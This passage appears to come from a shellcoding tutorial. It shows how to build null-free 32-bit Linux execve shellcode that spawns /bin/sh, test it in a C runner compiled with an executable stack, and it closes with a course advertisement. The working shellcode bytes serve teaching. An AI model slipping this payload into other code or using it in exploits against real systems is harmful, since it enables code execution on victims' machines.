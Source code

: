 The new code is compiled in the same way:

```bash
nasm -f elf32 -o ex2.o ex2.asm
ld -m elf_i386 -o ex2 ex2.o
```

Also, there are no null bytes:

![c](images/shellcoding.png)

Paste the resulting shellcode into the shellcode tester application:

```cpp
/*
run.c - a small skeleton program to run shellcode
*/
// bytecode here
char code[] = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\xb0\x0b\xcd\x80";

int main(int argc, char **argv) {
  int (*func)();             // function pointer
  func = (int (*)()) code;   // func points to our shellcode
  (int)(*func)();            // execute a function code[]
  // if our program returned 0 instead of 1,
  // so our shellcode worked
  return 1;
}
```

and compile it with `gcc`:

```bash
gcc -z execstack -m32 -o run run.c
./run
```

You can now write null-free, fundamental `execve()` shellcode that launches a shell.

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html)
::: In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.**
